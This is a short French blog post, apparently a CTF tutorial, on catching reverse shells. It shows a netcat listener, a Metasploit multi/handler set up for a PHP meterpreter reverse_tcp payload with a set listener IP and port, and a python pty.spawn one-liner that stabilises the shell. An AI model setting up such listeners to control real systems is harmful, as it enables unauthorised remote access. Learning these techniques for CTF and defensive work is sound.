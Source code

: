 ```yaml
---
layout: post
section-type: post
title: Se mettre sous écoute sur un port
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Dans cet article, je vous montre un simple usage de netcat et meterpreter. Pour aller plus loin, RTFM :p 

---------------------------------------------

#### Pré requis 
1-Avoir installer meterpreter pour la Méthode 2 <br/>

---------------------------------------------
#### Méthode 1: Utiliser netcat
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234
      netcat -lvp 1234 
  </code></pre> <br/>
  
  NB: Il n’est pas nécessaire d’avoir les droits "root" pour mettre un port en écoute !
  
---------------------------------------------
#### Méthode 2: Utiliser meterpreter
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234 et l'IP 10.23.201.17 en utilisant le payload php
      msfconsole
      use exploit/multi/handler
      set payload php/meterpreter/reverse_tcp
      set LHOST 10.23.201.17
      set LPORT 1234
      run
  </code></pre> <br/>
     
  NB: Il n’est pas nécessaire d’avoir les droits "root" pour mettre un port en écoute !
  
---------------------------------------------
#### Aller plus loin
  <pre><code data-trim class="yaml">
    #Faire en sorte que le shell gère les entrées/sorties sans broncher ;)
    python -c 'import pty; pty.spawn("/bin/bash")' 
  </code></pre> <br/>
 
 ---------------------------------------------
